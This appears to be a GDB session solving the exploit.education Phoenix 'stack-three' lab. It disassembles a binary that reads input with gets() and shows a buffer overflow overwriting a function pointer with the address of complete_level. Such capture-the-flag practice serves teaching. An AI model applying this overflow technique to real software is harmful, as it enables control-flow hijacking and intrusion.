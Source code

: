$ gdb ./run

(gdb) set disassembly-flavor intel
(gdb) b main
(gdb) run
(gdb) disassemble
Dump of assembler code for function main:                                                                  
   0x0000000000400695 <+0>:     push   rbp                                                                 
   0x0000000000400696 <+1>:     mov    rbp,rsp                                                             
=> 0x0000000000400699 <+4>:     sub    rsp,0x60                                                            
   0x000000000040069d <+8>:     mov    DWORD PTR [rbp-0x54],edi                                            
   0x00000000004006a0 <+11>:    mov    QWORD PTR [rbp-0x60],rsi                                            
   0x00000000004006a4 <+15>:    mov    edi,0x4007e8                                                        
   0x00000000004006a9 <+20>:    call   0x400520 <puts@plt>                                                 
   0x00000000004006ae <+25>:    mov    QWORD PTR [rbp-0x8],0x0                                             
   0x00000000004006b6 <+33>:    lea    rax,[rbp-0x50]                                                      
   0x00000000004006ba <+37>:    mov    rdi,rax                                                             
   0x00000000004006bd <+40>:    call   0x400550 <gets@plt>                                                 
   0x00000000004006c2 <+45>:    cmp    QWORD PTR [rbp-0x8],0x0                                             
   0x00000000004006c7 <+50>:    je     0x4006fb <main+102>                                                 
   0x00000000004006c9 <+52>:    mov    rax,QWORD PTR [rbp-0x8]                                             
   0x00000000004006cd <+56>:    mov    rsi,rax                                                             
   0x00000000004006d0 <+59>:    mov    edi,0x400838                                                        
   0x00000000004006d5 <+64>:    mov    eax,0x0                                                             
   0x00000000004006da <+69>:    call   0x400530 <printf@plt>                                               
   0x00000000004006df <+74>:    mov    rax,QWORD PTR [rip+0x20096a]        # 0x601050 <stdout@@GLIBC_2.2.5>
   0x00000000004006e6 <+81>:    mov    rdi,rax                                                             
   0x00000000004006e9 <+84>:    call   0x400560 <fflush@plt>                                               
   0x00000000004006ee <+89>:    mov    rdx,QWORD PTR [rbp-0x8]                                             
   0x00000000004006f2 <+93>:    mov    eax,0x0                                                             
   0x00000000004006f7 <+98>:    call   rdx                                                                 
   0x00000000004006f9 <+100>:   jmp    0x400705 <main+112>                                                 
   0x00000000004006fb <+102>:   mov    edi,0x400858                                                        
   0x0000000000400700 <+107>:   call   0x400520 <puts@plt>                                                 
   0x0000000000400705 <+112>:   mov    edi,0x0                                                             
   0x000000000040070a <+117>:   call   0x400570 <exit@plt>                                                 
End of assembler dump. 

# rbp = 0x7fffffffe1e0
# fp = [rbp-0x8]
# buffer = [rbp-0x50]

(gdb) info functions
All defined functions:                    
                                          
Non-debugging symbols:                    
0x00000000004004e8  _init                 
0x0000000000400520  puts@plt              
0x0000000000400530  printf@plt            
0x0000000000400540  __libc_start_main@plt 
0x0000000000400550  gets@plt              
0x0000000000400560  fflush@plt            
0x0000000000400570  exit@plt              
0x0000000000400590  _start                
0x00000000004005c0  deregister_tm_clones  
0x00000000004005f0  register_tm_clones    
0x0000000000400630  __do_global_dtors_aux 
0x0000000000400650  frame_dummy           
0x000000000040067d  complete_level        
0x0000000000400695  main 


(gdb) b *0x00000000004006c2  # after gets
Breakpoint 2 at 0x4006bd  
(gdb) continue
Welcome to phoenix/stack-three, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}???

(gdb) x/64wx 0x7fffffffe190  # buffer
0x7fffffffe190: 0x41414141      0x41414141      0x41414141      0x41414141  
0x7fffffffe1a0: 0x41414141      0x41414141      0x41414141      0x41414141  
0x7fffffffe1b0: 0x41414141      0x41414141      0x41414141      0x41414141  
0x7fffffffe1c0: 0x41414141      0x41414141      0x41414141      0x41414141  
0x7fffffffe1d0: 0x41414141      0x41414141      0x00414141      0x00000000  
0x7fffffffe1e0: 0x00000000      0x00000000      0xf7a303d5      0x00007fff  
0x7fffffffe1f0: 0x00000000      0x00000020      0xffffe2c8      0x00007fff  
0x7fffffffe200: 0x00000000      0x00000001      0x00400695      0x00000000  
0x7fffffffe210: 0x00000000      0x00000000      0x5416f528      0x5a52f68e  
0x7fffffffe220: 0x00400590      0x00000000      0xffffe2c0      0x00007fff  
0x7fffffffe230: 0x00000000      0x00000000      0x00000000      0x00000000  
0x7fffffffe240: 0x97f6f528      0xa5ad0971      0x530cf528      0xa5ad19c8  
0x7fffffffe250: 0x00000000      0x00000000      0x00000000      0x00000000  
0x7fffffffe260: 0x00000000      0x00000000      0x00000000      0x00000000  
0x7fffffffe270: 0x00000000      0x00000000      0x00000000      0x00000000  
0x7fffffffe280: 0x00000000      0x00000000      0x00000000      0x00000000  
(gdb) x/1wx 0x7fffffffe1d8  # fp
0x7fffffffe1d8: 0x00414141

(gdb) run < input.txt
(gdb) c  
(gdb) info registers
(gdb) x/64wx 0x7fffffffe190 
0x7fffffffe190: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe1a0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe1b0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe1c0: 0x41414141      0x41414141      0x41414141      0x41414141
0x7fffffffe1d0: 0x41414141      0x41414141      0x0040067d      0x00000000
0x7fffffffe1e0: 0x00000000      0x00000000      0xf7a303d5      0x00007fff
0x7fffffffe1f0: 0x00000000      0x00000020      0xffffe2c8      0x00007fff
0x7fffffffe200: 0x00000000      0x00000001      0x00400695      0x00000000
0x7fffffffe210: 0x00000000      0x00000000      0xb09082bf      0xcac278b1
0x7fffffffe220: 0x00400590      0x00000000      0xffffe2c0      0x00007fff
0x7fffffffe230: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe240: 0x737082bf      0x353d874e      0xb78a82bf      0x353d97f7
0x7fffffffe250: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe260: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe270: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe280: 0x00000000      0x00000000      0x00000000      0x00000000 


